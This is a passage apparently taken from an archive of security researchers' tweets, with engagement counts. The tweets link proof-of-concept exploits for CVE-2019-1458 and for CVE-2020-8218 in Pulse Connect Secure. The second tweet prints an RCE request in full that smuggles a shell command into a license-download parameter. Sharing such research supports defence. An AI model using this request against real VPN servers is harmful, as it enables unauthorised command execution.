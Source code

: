</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>60</code></td>
</table></tr>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1303242252827987970 _at 2020-09-08 08:02:20_**
<blockquote>
CVE-2019-1458 LPE PoC + full writeup with a very interesting patch diffing approach 👌 https://t.co/QyRvp17zMU
</blockquote>

* https://github.com/piotrflorczyk/cve-2019-1458_POC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>126</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1301021388455596032 _at 2020-09-02 04:57:25_**
<blockquote>
RCE in Pulse Connect Secure SSL VPN (CVE-2020-8218) 

[Proof Of Concept]
/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/XhlYdrrWqB https://t.co/C4mjbngIq0
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc/blob/master/pulse-gosecure-rce.py

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Eg4n9nRVoAEWnI5.jpg" alt="http://pbs.twimg.com/media/Eg4n9nRVoAEWnI5.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>